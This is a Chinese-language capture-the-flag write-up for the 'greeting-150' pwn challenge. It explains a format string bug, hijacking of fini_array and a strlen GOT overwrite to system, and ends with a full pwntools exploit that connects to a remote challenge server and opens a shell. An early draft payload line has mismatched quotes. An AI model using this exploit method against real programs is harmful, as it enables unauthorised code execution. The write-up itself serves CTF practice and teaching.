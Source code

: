 # 攻防世界-greeting-150

`格式化字符串漏洞`+`fini_arry劫持`+`got表篡改`

# checksec

```shell
[*] '/home/giantbranch/Desktop/pwn/greeting/pwn'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-84h]
  char v5; // [esp+5Ch] [ebp-44h]
  unsigned int v6; // [esp+9Ch] [ebp-4h]

  v6 = __readgsdword(0x14u);
  printf("Please tell me your name... ");
  if ( !getnline(&v5, 64) )
    return puts("Don't ignore me ;( ");
  sprintf(&s, "Nice to meet you, %s :)\n", &v5);
  return printf(&s);
}
```

这里明显有个format string exploit，我们再看看getnline中做了什么。

```c
size_t __cdecl getnline(char *s, int n)
{
  char *v3; // [esp+1Ch] [ebp-Ch]

  fgets(s, n, stdin);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  return strlen(s);
}
```

向v5中写入64字节的数据，最后返回字符串长度。

分析一下，我们只有一次输入的机会，而且程序开启了canary保护，所以普通的栈溢出失效。

想要控制程序的执行流可以通过`fini_arry`劫持到main函数。

`format string exploit`可以达到任意地址写的目的。getnline最后会调用strlen(s),而s的内容是我们可以控制的，再查看程序，发现plt表处有system函数，所以想到将strlen的got表覆盖为system的plt表。

控制程序回到main，输入“/bin/sh”，从而再调用strlen(s)时，相当于调用了system("/bin/sh")

查看程序各段：

```python
system_plt=0x08048490
main=0x080485ED
fini_arry=0x08049934
```

注意sprintf函数，是将Nice to meet you, %s :)写入s中的，而不是输出。所以偏移的计算应该加上strlen(Nice to meet you, )

初始payload如下：

```py
payload='aa'+p32(fini_arry+2)+p32(strlen_got+2)+p32(strlen_got)+p32(fini_arry)
payload+='%'+'offset1'+'c%12$hn'+'%13$hn'+'%'+'offset2'+c%14$hn'+'%'+'offset3'+c%15$hn'
```

这里多出来的aa是因为字节对齐（待深入），在找参数位置时候也能发现要多写两个字节。

```python
offset1=0x804-18-2-16=2016
offset2=0x8490-0x804=31884
offset3=0x85ED-0x8490=349
```

# EXP

```python
from pwn import *
context.log_level="DEBUG"
from ctypes import *

local=0
offset=2
if local:
	p=process('./pwn')
	elf = ELF('./pwn')
else:
	p=remote('220.249.52.133',46316)
	elf = ELF('./pwn')
strlen_got=elf.got['strlen']
system_plt=0x08048490
main=0x080485ED
fini_arry=0x08049934

payload='aa'+p32(fini_arry+2)+p32(strlen_got+2)+p32(strlen_got)+p32(fini_arry)
payload+='%2016c%12$hn'+'%13$hn'+'%31884c%14$hn'+'%349c%15$hn'
p.sendline(payload)

sleep(0.5)
p.sendline("/bin/sh")

p.interactive()
```

